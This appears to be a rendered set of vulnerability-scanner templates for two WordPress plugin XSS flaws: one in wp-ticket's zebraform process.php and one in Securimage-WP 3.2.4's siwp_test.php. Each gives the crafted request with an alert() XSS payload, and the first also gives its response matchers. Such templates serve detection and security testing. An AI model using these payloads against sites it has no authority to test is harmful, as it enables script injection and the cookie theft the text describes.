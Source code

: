 - severity - medium
- tags - wordpress,xss,wp,wpscan
## Requests
### Step - 1
```
POST /wp-content/plugins/wp-ticket/assets/ext/zebraform/process.php?form=%3C/script%3E%3Cimg%20src%20onerror=alert(document.domain)%3E&control=upload HTTP/1.1
Host: {{Hostname}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Content-Type: multipart/form-data; boundary=---------------------------77916619616724262872902741074
Origin: null

-----------------------------77916619616724262872902741074
Content-Disposition: form-data; name="upload"; filename="{{randstr}}.txt"
Content-Type: text/plain
Test
-----------------------------77916619616724262872902741074--

```
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<img src onerror=alert(document.domain)>

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Securimage-WP 3.2.4 - Cross-Site Scripting
## Description
- WordPress Securimage-WP 3.2.4 plugin contains a cross-site scripting vulnerability via siwp_test.php. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - edb,wordpress,xss,wp-plugin
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/securimage-wp/siwp_test.php/%22/%3E%3Cscript%3Ealert(1);%3C/script%3E?tested=1
### Matchers
